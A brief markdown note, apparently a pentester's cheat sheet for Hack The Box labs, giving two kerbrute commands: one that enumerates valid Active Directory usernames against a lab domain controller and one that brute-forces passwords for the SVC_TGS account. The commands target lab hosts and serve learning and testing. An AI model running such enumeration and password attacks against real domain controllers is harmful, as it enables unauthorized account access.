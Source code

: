


**verify vaild users**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum validuser-list
```

**verify password**
```sh
kerbrute bruteuser --dc 10.10.10.100 -d active.htb password.txt SVC_TGS
```
